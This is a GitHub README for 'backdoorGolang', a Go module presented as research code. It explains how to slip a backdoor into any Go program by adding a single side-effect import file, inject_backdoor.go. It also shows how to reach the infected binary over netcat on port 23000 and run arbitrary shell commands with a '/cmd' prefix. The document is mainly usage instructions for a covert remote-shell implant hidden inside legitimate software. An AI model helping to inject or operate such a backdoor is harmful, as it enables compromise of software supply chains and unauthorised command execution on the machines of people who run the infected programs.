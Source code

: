 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Platform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

This code is for research purposes only.

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

"A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible)."

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

From CentOS 7/8 and RedHat 7/8:

```
See Golang SDK link above.
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clone the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolang
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolang/tests/simple_example` folder, remove the inject_backdoor.go source file and build it:

```
rm inject_backdoor.go
go build
```

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be injected to a Golang source code to inject the backdoor to the software.

Follow the next session to see how to test the infected version of the binary.

### Connect to the infected binary

The backdoor uses the 'localhost:23000' address hardcoded for now. The plan is to have network interface detection and auto selection of available network port range.

Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
/cmd netstat -natp
/cmd ps aux
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
